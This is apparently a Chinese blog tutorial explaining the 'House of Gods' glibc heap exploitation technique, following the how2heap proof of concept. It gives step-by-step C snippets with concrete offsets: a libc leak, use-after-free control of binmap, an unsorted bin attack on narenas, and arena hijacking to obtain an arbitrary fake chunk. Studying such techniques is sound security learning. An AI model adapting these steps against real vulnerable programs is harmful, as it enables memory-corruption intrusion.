




house of gods
相当有趣和综合的攻击方式。虽然 tcache 出来之后，这个攻击已经百分百不可能成功了，但是确实有趣和综合。
对 malloc_state 需要有非常好的理解才可以。下面就直接说攻击步骤，因为很难总结它的核心原理，用到了很多方面知识。
控制 binmap
如下图所示，这是一个相当好的图，我们现在尝试控制 malloc_state 的 binmap 结构：

泄露 libc 地址
首先是很常见的利用 unsorted 泄露 libc 地址，如下所示，此时 leak 是 main_arena 的 unsorted 地址：
void *SMALLCHUNK = malloc(0x88);
void *FAST20 = malloc(0x18);
free(SMALLCHUNK); // 进入 unsorted 中
const uint64_t leak = *((uint64_t*) SMALLCHUNK);
准备控制 binmap
其实控制 binmap 相当简单，因为我们知道 libc 地址（更确切的说，是 main_arena 的 unsorted 地址），那么就可以算出 binmap 在哪里了：
// Use After Free
*((uint64_t*) (SMALLCHUNK + 0x8)) = leak + 0x7f8;
此时我们来看看 unsorted 的链表情况，我们只看 bk 指针。第一个肯定是 SMALLCHUNK，这个没啥好说的。
第二个就是 leak+0x7f8，这个地址是 binmap-0x8，之所以是要偏移 -0x8，可以看下面第三块中找到答案：

第三个是 binmap-0x8+0x18=binmap+0x10，这个地址是哪里？查看 malloc_state 结构，可以看到是 next 指针：
struct malloc_state
{
// binmap：表示bin数组当中某一个下标的bin是否为空，用来在分配的时候加速
unsigned int binmap[BINMAPSIZE];
// 分配区全局链表：分配区链表，主分配区放头部，新加入的分配区放main_arean.next 位置 Linked list
struct malloc_state *next;
// ...
}
而当我们只有一个 main_arena 的时候，next 指针就指向 main_arena，其内容如下：

此时的 unsorted 内容：
SMALLCHUNK --> binmap-0x8 --> main_arena
实现控制
从上面的图看到，binmap[0] 此时是 0x200，即上面分析的第二个块的 size 是 0x200，所以如下就能获取到 binmap：
void *BINMAP = malloc(0x1f8);
此时的 unsorted 内容：
main_arena
利用 binmap 攻击
控制完 binmap 之后，其实相当于控制了 malloc_state 的某些数据结构，下面进行攻击的步骤说明。
利用 unsorted bin attack 修改 narenas
malloc 使用 narenas 变量来记录当前 arena 的数量。如果这个计数器超过了限制（narenas_limit），malloc 就会开始 从 arena 链表中复用已有 arena，而不是创建新的 arena。
我们希望是要复用 arena 链表（后面会看到），所以这里可以通过一次 unsorted bin attack 将其设置为一个非常大的值。
这里提一下是如何做的。在上面一节提到的 unsorted 链表，其 bk 链条是：
SMALLCHUNK --> binmap-0x8 --> main_arena
我们可以再释放一个 0x40 大小的块到 fastbin 中，我们看文章最开始的图：main_arena 的开始就是 malloc_state 结构，而 malloc_state 结构的开始就是 fastbin 链表。如果释放到 0x40 的 fastbin 链表，它的位置相当于这个块的 bk 指针：

上面我们还释放了一个 0x20 大小（数据区大小）的块，为了防止 size 段是 0，造成报错。
剩下的就是利用这个 0x40 大小的块进行 unsorted bin attack 就行，这里直接给代码：
void *SMALLCHUNK = malloc(0x88);
void *FAST20 = malloc(0x18);
void *FAST40 = malloc(0x38);
void *INTM = malloc(0x98);
*((uint64_t*) (SMALLCHUNK + 0x8)) = leak + 0x7f8;
*((uint64_t*) (FAST40 + 0x8)) = (uint64_t) (INTM - 0x10);
// 此时的 unsorted: head -> SMALLCHUNK -> binmap -> main-arena -> FAST40 -> INTM
void *BINMAP = malloc(0x1f8); // 获取 binmap，这个在上面一章中有介绍
// 此时的 unsorted: main-arena -> FAST40 -> INTM
*((uint64_t*) (INTM + 0x8)) = leak - 0xa20; // 这是 narenas 地址
// 此时的 unsorted: main-arena -> FAST40 -> INTM -> narenas-0x10
// 这个偏移是 malloc_state 的 system_mem，设置它这样 chunk_size 不会有问题
*((uint64_t*) (BINMAP + 0x20)) = 0xffffffffffffffff;
// 执行 unsorted bin attack，malloc 之后会让 narenas 变为很大数字
INTM = malloc(0x98);
修改 mainarena.next
我们后续会用到 mainarena.next，这里进行修改，修改方式很简单，我们都有了 BINMAP 能控制 binmap 后面的内容，那么直接写即可：
// 修改为我们可以控制的块
*((uint64_t*) (BINMAP + 0x8)) = (uint64_t) (INTM - 0x10);
执行两次大内存申请
下面我们执行两次大内存申请：
malloc(0xffffffffffffffbf + 1);
malloc(0xffffffffffffffbf + 1);
第一次中，由于当前 arena 无法处理之前的内存分配请求，所以触发了 reused_arena() 函数，他会遍历 arena 链表，返回可用的 arena。由于从当前开始，所以这一次就返回给了我们 main_arena。
第二次中，依旧触发了 reused_arena() 函数，继续遍历 arena 链表，即返回了 main_arena.next。
所以现在是 INTM 这个可控制块变成了当前的 malloc_state，即系统认为它里面的内容是用于管理 fastbin 等等数据结构。
执行攻击
所以我们只要修改 INTM 里面的内容，比如修改对应的 fastbin 链表内容，那么就可以了：
// fakechunk，size 是自行构造的，是 0x70
uint64_t fakechunk[4] = {
0x0000000000000000, 0x0000000000000073,
0x4141414141414141, 0x0000000000000000
};
// 系统认为 INTM 管理 fastbin 等数据结构，我们把 0x70 对应大小的位置设置为 fakechunk
*((uint64_t*) (INTM + 0x20)) = (uint64_t) (fakechunk);
此时申请一个块，成功：
// 此时会得到我们上面的 fakechunk
void *FAKECHUNK = malloc(0x68);
// 可以随便修改
*((uint64_t*) (FAKECHUNK)) = 0x4242424242424242;
总结
相当相当漂亮的攻击，虽然现在不可以用了，但学习这种攻击确实有趣极了。
参考文档：网上找了很长时间，没有好的资料，只有 how2heap 对应的 PoC，对着这个代码进行看了。